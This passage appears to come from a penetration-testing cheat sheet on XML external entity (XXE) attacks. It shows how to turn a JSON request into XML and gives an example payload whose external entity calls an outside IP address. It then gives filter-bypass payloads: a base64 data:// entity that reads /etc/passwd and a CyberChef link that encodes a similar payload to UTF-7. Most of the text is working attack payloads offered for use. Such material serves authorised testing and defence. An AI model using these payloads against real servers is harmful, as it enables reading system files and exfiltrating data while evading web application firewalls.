 ### Content-Type: From JSON to XEE

To change the request you could use a Burp Extension named “**Content Type Converter**“. [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:

```markup
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

```markup
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

Another example can be found [here](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## WAF & Protections Bypasses

### Base64

```markup
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

This only work if the XML server accepts the `data://` protocol.

### UTF-7

You can use the \[**"Encode Recipe**" of cyberchef here \]\([https://gchq.github.io/CyberChef/\#recipe=Encode\_text%28'UTF-7 %2865000%29'%29&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4\)to](https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7%20%2865000%29'%29&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to) transform to UTF-7.
